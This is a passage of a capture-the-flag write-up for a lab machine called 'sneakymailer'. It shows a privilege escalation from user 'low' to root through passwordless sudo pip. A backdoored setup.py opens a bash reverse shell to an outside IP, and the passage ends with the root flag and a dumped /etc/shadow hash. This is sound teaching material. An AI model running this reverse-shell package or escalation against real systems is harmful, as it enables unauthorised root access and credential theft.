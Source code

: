 Here we got a shell as low:

```
$ low@sneakymailer:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
,111(bluetooth),119(pypi-pkg)

low@sneakymailer:~$ cat user.txt
70ac4f2e6be3aece2eed49ecb6f80d7d
```

## Privilege Escalation of Machine : from low to root

```
$ printf %s 'ssh-rsa <pubkey> noraj@penarch' >> ~/.ssh/authorized_keys
$ ssh -i ~/.ssh/id_rsa low@10.10.10.197
```

Let's look for low hanging fruits:

```
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip
```

Let's create a very minimal backdoored package:

```
low@sneakymailer:~$ mktemp -d
/tmp/tmp.lIuPOXEbwZ
low@sneakymailer:~$ cd /tmp/tmp.lIuPOXEbwZ
low@sneakymailer:/tmp/tmp.lIuPOXEbwZ$ vim.tiny setup.py
low@sneakymailer:/tmp/tmp.lIuPOXEbwZ$ sudo /usr/bin/pip3 install 
```

`setup.py`

```python
import os
os.system("echo 'bash -i >&/dev/tcp/10.10.14.174/8080 0>&1' | /bin/bash")
```

When executed we retrieve the root shell:

```
root@sneakymailer:/tmp/pip-req-build-lp_bvi48# id
uid=0(root) gid=0(root) groups=0(root)
root@sneakymailer:/tmp/pip-req-build-lp_bvi48# cd
root@sneakymailer:~# cat root.txt
602b7d042c33e19fdf079cfef493eb60
root@sneakymailer:~# cat /etc/shadow | grep root
root:$6$jJW2Iy0Knfw7c6gr$/p2MAEhr7Fy4bMIT8szzgnSkL2kp8EaPKvGQ//cfcX0bMnazYHzNwWIsGaGwgceFyftI2Xihj0rrhUbfkrzhf.:18402:0:99999:7:::
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
